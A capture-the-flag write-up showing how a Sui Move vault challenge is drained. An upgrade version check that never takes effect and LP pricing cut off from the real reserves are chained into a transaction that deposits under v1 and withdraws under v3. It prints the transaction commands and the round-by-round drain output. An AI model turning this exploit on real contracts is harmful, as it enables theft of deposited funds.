

# 06 - Second Stamp

**Category:** Blockchain
**Points:** 975
**Difficulty:** Medium
**Solved:** 28/07/2026 19:25
**Flag:** `HTB{w1th_gr34t_upgr4d34b1l1ty_c0m3s_gr34t_cr0ss-v3rs10n_r1sk_d6df41c032cbb4f012fee84fe014c6c1}`



**Approach & tooling note:**

- I used Claude Code as a supporting/execution aid on this one:
  - Reading through ~3,800 lines of Move source across nine packages.
  - Downloading and wiring up Sui CLI tooling.
  - Driving the actual on-chain transactions.
- The decisions were mine:
  - Which of the two accounting bugs was the "real" one worth chasing.
  - How to turn that into a concrete multi-call transaction.
  - How to read the resulting on-chain numbers to know when I'd actually won.
- I checked the exploit against the live instance's real object state (pool reserves, AUM, LP supply) before trusting it, not just against my own math. Happy to walk through this live if asked.

## Challenge Description

> The pale wax leads Caldrin to a larger Sharehouse in the old quarter,
> recently renewed with stricter rules and newer claim-marks. Yet one
> disputed mark has passed every inspection. A strange pattern beneath its
> fresh groove does not match the current design, while a thin gold fleck
> links it to travel claims. Verrin's delivery papers point beyond the
> city, and Caldrin begins to suspect that some claims are being judged by
> entirely different rules.

- Translating the lore before touching anything:
  - A "Sharehouse" that got "renewed with stricter rules" and has "newer claim-marks" sounded like a smart-contract vault that had gone through an on-chain **upgrade** - old logic potentially still lurking around after a newer version was deployed.
  - "One disputed mark has passed every inspection" and "judged by entirely different rules" pointed straight at a version-check bug: some code path still validating against an old, superseded rule-set.
  - The "pale wax" and "gold fleck" turned out to be literal - the two coin types in the vault - and "travel claims" turned out to be a second liquidity pool ("travel_counter") layered on top of the original one ("old_counter") in a later version.

## Provided files

A zip containing nine separate Move packages (no README, no scripts):

```
v1/                 - sharehouse package, version 1
v2/                 - sharehouse package, version 2 (adds flash.move)
v3/                 - sharehouse package, version 3 ("current", adds travel_counter + legacy.move)
witness_oracle/     - a price oracle
old_counter/        - the original DLMM-style liquidity pool
travel_counter/     - a second, Uniswap-v3-style concentrated liquidity pool
claim_marks/        - the three coin types (PALE_WAX, GOLD_FLECK, CLAIM_MARK)
deployment/         - Move.toml templates used by the challenge's own deploy script
sources/setup.move  - the challenge harness (claim/is_solved logic)
```

- Plus a Docker-spawned instance exposing an HTTP control panel at `IP:PORT` with `/api/health`, `/api/instance/{start,stop,restart,check}`.

## Step 1 - reading the contract, three times over

- `v1`, `v2`, `v3` are three sequential versions of the same `sharehouse` package. Diffing them (`diff -rq v1/sources v2/sources`, then `v2` vs `v3`) showed:
  - `versioned.move`'s `SUPPORTED_VERSION` constant bumps `1 -> 2 -> 3` across the three folders.
  - `v2` adds `flash.move` (a flash-loan facility).
  - `v3` adds `flash.move` too, plus `legacy.move` (a set of functions that just `abort` - explicitly disabled old entry points) and a new `travel_counter` position attached to the `Sharehouse` via a dynamic object field.
- The `Sharehouse` object itself is a vault: users deposit `PALE_WAX` + `GOLD_FLECK`, get `CLAIM_MARK` LP tokens back, priced against a computed "AUM" (assets under management).
- Withdrawing burns LP tokens and pays out a proportional share of whatever the vault is actually holding across a buffer balance, the `old_counter` pool position, and (in v3) the `travel_counter` pool position.
- Two things jumped out reading `accounting.move` and the pool modules across all three versions:

**Bug 1 - the version gate is decorative.**

- Every accounting entrypoint starts with `versioned::assert_supported(versioned)`, which just checks `versioned.version <= SUPPORTED_VERSION` (a compile-time constant baked into each package version: 1, 2, or 3).
- `versioned::set_version()` exists to bump the live `Versioned` object's `.version` field after an upgrade - but grepping the entire source tree for calls to it turned up nothing.
- The deploy log later confirmed this: the challenge publishes v1, then **upgrades** the same package to v2, then to v3 (`sui client upgrade` preserves the original package ID and object types), but never calls `set_version`.
- So `versioned.version` sits at `1` forever, and `1 <= 1`, `1 <= 2`, and `1 <= 3` are all true - meaning **v1's original, pre-hardening `deposit`/`refresh_aum` entrypoints stay fully callable on-chain forever**, side-by-side with v3's "current" logic, against the exact same shared `Sharehouse` object.
- That's the "disputed mark that passed every inspection... judged by entirely different rules" from the lore, almost word for word.

**Bug 2 - LP pricing is decoupled from real reserves.**

- Looking at `old_counter::pool::new()` and `travel_counter::pool::new()`, the `Position` struct's tracked value (`principal_a`/`principal_b` for old_counter, `liquidity` for travel_counter) is a **hardcoded constant**, completely independent of however many real coins get passed into the pool at creation:

```move
// old_counter::pool::new - real reserve = whatever coin_a/coin_b you pass in,
// but the "position" backing AUM math is always exactly this:
principal_a: 80_000_000_000_000_000,
principal_b: 200_000_000,
```

```move
// travel_counter::pool::new - same story:
liquidity: 1_000_000,
```

- `calculate_aum()` prices LP shares off this fictional `principal`/`liquidity` figure, but `remove_liquidity_by_percent()` / `remove_share()` (the withdrawal path) pay out a percentage of the **real** `pool.reserve_a`/`reserve_b` balances.
- The challenge's own `sources/setup.move` seeds the real pools with far more than the fictional accounted value - `old_counter` gets 1e18 real WAX funded against an accounted value of ~8.7e16, and `travel_counter` gets 14e18 real WAX against an accounted liquidity worth a few hundred thousand.
- So even entirely within "current" v3 logic, minting LP against the fictional AUM and redeeming it against the real reserves is already profitable - v1/v2 just make it worse, since their `calculate_aum` never counts `travel_counter`'s contribution at all (it didn't exist yet).
- I picked bug 1 as the throughline (it's what the flag text confirms: *"with great upgradeability comes great cross-version risk"*), using v1's cheaper, travel-counter-blind AUM as the deposit leg, and v3's full withdrawal path (the only one that also drains `travel_counter`) as the redemption leg, in the same atomic transaction.

## Step 2 - getting connected (the part that ate most of my clock)

- The instance's `/api/instance/start` returns a `rpcUrl` that's literally the same base URL as the web control panel. I burned a lot of the instance's 10-minute lifetime here before finding the right client:
  - The newest `sui` CLI I could get (a prebuilt `testnet-v1.76.1` release, matching the exact framework revision pinned in the challenge's `Move.lock`) talks **gRPC by default** now - `sui client gas` failed with `grpc-status header missing, mapped from HTTP status code 502`.
  - I checked whether raw JSON-RPC even worked against the endpoint at all: `curl -X POST $BASE/` returned Express's literal `Cannot POST /`, and `curl -X OPTIONS $BASE/` came back `Allow: GET, HEAD` - confirming there really is no JSON-RPC route wired up on that path, on any port/path variant I tried (`/rpc`, `/api/rpc`, `/graphql`, SDK-style headers, none of it).
  - As a sanity check I POSTed the same JSON-RPC body at a real public Sui testnet fullnode from the same sandbox, and got back a proper `Method not found... JSON-RPC on public fullnodes has been deprecated` error - confirming POST itself works fine from my network and that JSON-RPC really has been phased out fleet-wide, which is presumably why the newest CLI defaults to gRPC now.
  - I downloaded an older CLI (`testnet-v1.40.3`) hoping it would speak plain JSON-RPC - it did, but got a bare `404` hitting the same URL, no better.
  - The actual fix: `curl --http2-prior-knowledge` against the base URL came back `200`, HTTP/2 - so the challenge's Caddy front end *does* support cleartext HTTP/2 (h2c), meaning gRPC should work. My first `sui client` gRPC attempts had failed only because the client's local config had no cached `chain_id` for the custom environment yet; running a plain `sui client object <known-id>` once let it complete that handshake and populate `chain_id` in `client.yaml` automatically, and every gRPC call worked cleanly after that (`gas`, `call`, `ptb`, all of it).
- Net result: **the newest CLI was in fact the right tool**, I just needed one successful low-level call to warm up its config before the higher-level commands would stop erroring.
- Lesson for next time on this platform: don't give up on the version-matched tooling after one 502 - try a plain read (`sui client object <id>`) first to force the chain-id/gRPC handshake before concluding the transport is broken.

## Step 3 - claiming starting funds

- The `setup` package (published fresh per-instance) exposes `claim()` on the shared `DisputedMark` object, handing the player a small starting balance - `1e15` WAX and `1e6` GOLD, tiny next to the vault's real holdings.
- Since `claim()` returns a tuple of two non-`drop` `Coin` objects, a plain `sui client call` errored (`UnusedValueWithoutDrop`) - I had to use `sui client ptb` and explicitly `--transfer-objects` the returned coins to myself:

```
sui client ptb \
  --move-call ${SETUP_PKG}::setup::claim @${CHALLENGE} \
  --assign coins \
  --transfer-objects "[coins.0, coins.1]" @${ME} \
  --gas-budget 100000000
```

## Step 4 - the exploit transaction

- One programmable transaction block, chaining a v1 deposit into a v3 full withdrawal, all atomic:

```
sui client ptb \
  --move-call ${V1}::accounting::refresh_aum   @${HOUSE} @${VERSIONED} @${OLDPOOL} @${ORACLE} @0x6 \
  --move-call ${V1}::accounting::deposit        @${HOUSE} @${CONFIG} @${VERSIONED} @${WAX} @${GOLD} \
  --assign lp \
  --move-call ${V3}::withdraw::new_withdraw_cert        @${HOUSE} @${CONFIG} @${VERSIONED} lp \
  --assign receipt \
  --move-call ${V3}::withdraw::process_old_counter      @${HOUSE} receipt @${OLDPOOL} \
  --move-call ${V3}::withdraw::withdraw_travel_counter  @${HOUSE} receipt @${TRAVELPOOL} \
  --move-call ${V3}::withdraw::collect_position_fees    @${HOUSE} receipt @${OLDPOOL} @${TRAVELPOOL} \
  --move-call ${V3}::withdraw::collect_position_rewards @${HOUSE} receipt @${OLDPOOL} @${TRAVELPOOL} \
  --move-call ${V3}::withdraw::process_buffer           @${HOUSE} receipt \
  --move-call ${V3}::withdraw::complete_withdraw        @${HOUSE} receipt \
  --assign payout \
  --transfer-objects "[payout.0, payout.1]" @${ME} \
  --gas-budget 500000000
```

- `refresh_aum` (v1) recomputes AUM ignoring `travel_counter` entirely and off the fictional `old_counter` position value; `deposit` (v1) mints `CLAIM_MARK` LP against that undervalued AUM; the v3 withdrawal chain then pays out a share of the **real** buffer + `old_counter` + `travel_counter` reserves proportional to that LP.
- The first round, using only the claimed starting balance (1e15 WAX / 1e6 GOLD), already returned **964,849,087,813,006,551 WAX** and **3,694,722,980 GOLD** - about a 6.4% share of the entire vault, for a deposit worth a few million in AUM terms.
- Since each round's payout is vastly larger than what went in, and the AUM denominator barely moves (withdrawals never decrease `last_aum`, only deposits increase it), I fed each round's output straight back in as the next round's deposit and scripted the loop, parsing each transaction's own JSON `objectChanges` to find the newly minted WAX/GOLD coin IDs for the next round rather than doing a separate object listing call:

```
Round 1: WAX +964,849,087,813,006,551   GOLD +3,694,722,980
Round 2: WAX +13,825,698,073,269,103,484 GOLD +52,927,906,927
Round 3: WAX +214,257,156,346,124,154   GOLD +820,199,388
Round 4: WAX +216,722,349,268,228       GOLD +829,636
Round 5: WAX +114,874,900,047           GOLD +440
Round 6: WAX -61,183,909,037            GOLD -235   (net negative - vault essentially empty by now)
```

- After 6 rounds, the vault's real pool reserves were down to dust:

```
old_counter pool:    reserve_a = 14,233     reserve_b = 1
travel_counter pool:  reserve_a = 200,708    reserve_b = 1
house buffer:          base = 14,978,906,531,291,632   quote = 57,340,862
```

## Step 5 - checking the win

- `setup::is_solved()` requires the caller to be the registered player, the starting mark claimed, and eight numbers (buffer WAX/GOLD, protocol fee WAX/GOLD, old_counter WAX/GOLD, travel_counter WAX/GOLD) all under two fixed residual thresholds (`2.5e16` and `1e8`).
- The buffer and fees were already under threshold from the vault's initial seeding; after the drain, `old_counter` and `travel_counter` reserves were too.
- Hitting the challenge's own check endpoint confirmed it server-side:

```
$ curl -X POST $BASE/api/instance/check
{"solved":true,"flag":"HTB{w1th_gr34t_upgr4d34b1l1ty_c0m3s_gr34t_cr0ss-v3rs10n_r1sk_d6df41c032cbb4f012fee84fe014c6c1}"}
```

## If asked to explain this live

- This was a Sui Move DeFi vault ("Sharehouse") that had been upgraded three times (v1 -> v2 -> v3), each version adding stricter logic and, in v3, a second liquidity pool.
- The upgrade mechanism preserves the original package's object types and keeps every old version's bytecode callable on-chain forever; the contract's own "is this version still supported" gate depends on a shared `Versioned` object's `.version` field that's supposed to get bumped after each upgrade, but the challenge's deploy script never calls the function that does that bump - so it stays at `1` forever, and v1's original, unhardened `deposit`/`refresh_aum` functions remain fully callable.
- I chained one of those v1 calls (which prices the vault's assets-under-management without even knowing the second pool exists) into v3's full withdrawal flow (which pays out proportionally to the *real* reserves, including that second pool) inside a single programmable transaction block - deposit cheap under the undervalued old logic, withdraw expensive under the real reserves.
- Feeding each round's profit back in as the next round's deposit compounded fast: six rounds took the vault's real pool balances from roughly 15 quintillion WAX down to five-digit dust, well under the challenge's win thresholds, which the challenge's own server-side check confirmed as solved.
